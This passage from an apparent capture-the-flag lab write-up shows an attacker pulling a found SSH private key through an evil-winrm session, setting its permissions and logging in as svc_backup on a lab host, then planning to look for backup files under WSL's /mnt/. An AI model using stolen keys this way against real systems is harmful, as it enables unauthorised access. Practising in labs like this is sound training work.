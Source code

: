 ![w](/assets/img/attachments/voleur-19.png)
Ok interesting!
Couldn't access Backups directory, and i have a private key that i don't know for whom this is, at At first, I thought it was the administrator’s private key, but it didn’t work. Given the context, I then assumed it might be the private key for `svc_backup`
```powershell
download id_rsa
```
To download this file from evil-winrm
```bash
┌──(kali㉿kali)-[~/share]
└─$ chmod 600 id_rsa   
                                                                                                                                          
┌──(kali㉿kali)-[~/share]
└─$ ssh -i id_rsa -p 2222 svc_backup@10.10.11.76 
```
And yes we got access
svc_backup is a Linux machine, so based on the previous message, we can assume the backup files will be located in WSL under `/mnt/`
